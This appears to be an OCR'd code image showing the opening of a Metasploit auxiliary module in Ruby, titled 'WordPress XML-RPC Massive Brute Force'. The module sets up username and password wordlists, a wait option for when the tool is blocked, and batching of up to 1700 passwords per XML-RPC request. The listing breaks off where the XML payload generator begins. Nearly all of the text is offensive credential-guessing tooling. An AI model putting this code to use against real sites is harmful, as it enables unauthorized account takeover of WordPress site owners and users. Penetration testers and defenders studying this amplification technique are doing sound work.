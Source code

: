 
#### Wrapping up

```ruby
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
    super(update_info(
            info,
            'Name'         => 'WordPress XML-RPC Massive Brute Force',
            'Description'  => %q{WordPress massive brute force attacks via WordPress XML-RPC service.},
            'License'      => MSF_LICENSE,
            'Author'       =>
                [
                  'Sabri (@KINGSABRI)',           # Module Writer
                  'William (WCoppola@Lares.com)'  # Module Requester
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end

  def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end

  #
  # XML Factory
  #
  def generate_xml(user)

```